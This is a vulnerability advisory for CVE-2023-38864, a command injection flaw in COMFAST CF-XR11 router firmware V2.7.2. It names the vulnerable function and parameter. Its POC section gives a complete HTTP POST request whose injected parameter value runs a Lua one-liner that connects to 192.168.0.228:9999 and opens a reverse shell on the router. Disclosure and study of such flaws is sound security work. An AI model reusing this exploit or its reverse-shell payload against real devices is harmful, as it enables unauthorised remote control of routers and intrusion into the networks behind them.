 # CVE-ID

CVE-2023-38864

# Information

**Vendor of the products:**  COMFAST

**Vendor's website:**  http://www.comfast.cn/

**Reported by:**  TTY([tianyutu00@gmail.com](tianyutu00@gmail.com)) & w4rd3n(w4rd3n.iadc@gmail.com)

**Affected products:** COMFAST CF-XR11

**Affected firmware version:** V2.7.2

**Firmware download address:** http://dl.comfast.cn/firmware/CF-XR11-V2.7.2.rar

# Overview

`COMFAST CF-XR11 V2.7.2` has a command injection vulnerability detected at function `sub_41171C`. Attackers can send `POST` request messages to `/usr/bin/webmgnt` and inject evil commands into parameter `portal_delete_picname` to execute arbitrary commands by URL `http://192.168.0.1/cgi-bin/mbox-config?method=SET&section=wifilith_delete_pic_file`.

# Product parameters

`COMFAST CF-XR11 V2.7.2` is an 1800Mbps smart MESH router. The test version(the newest version) here is `V2.7.2`.

<img src="imgs/1.png" style="zoom:67%;" />

# Vulnerability details

The vulnerability is detected at `/usr/bin/webmgnt`.

In the function `sub_41171C`, the program uses function `blobmsg_parse` to obtain the content of parameter `portal_delete_picname`  which is sent by `POST` request. On line 19, the attacker can complete command execution by controlling the `portal_delete_picname` variable.

![](imgs/2.png)

# POC

Send the following to the URL `http://192.168.0.1/cgi-bin/mbox-config?method=SET&section=wifilith_delete_pic_file` by `POST` request.

```
POST /cgi-bin/mbox-config?method=SET&section=wifilith_delete_pic_file HTTP/1.1
Host: 192.168.0.1
Content-Length: 180
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Content-Type: appliation/json
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=f200a8c0-581cfffffff8ffffff90ffffffd044-65dafb23
Connection: close

{"portal_delete_picname":"1.img && echo \"`lua -e \"require('socket');require('os');t=socket.tcp();t:connect('192.168.0.228','9999');os.execute('/bin/sh -i <&3 >&3 2>&3 &');\"`\""}
```

# Attack Demo

After sending the POC, the malicious command will be executed and we can get the router's shell.

![](imgs/3.png)

![](imgs/4.png)

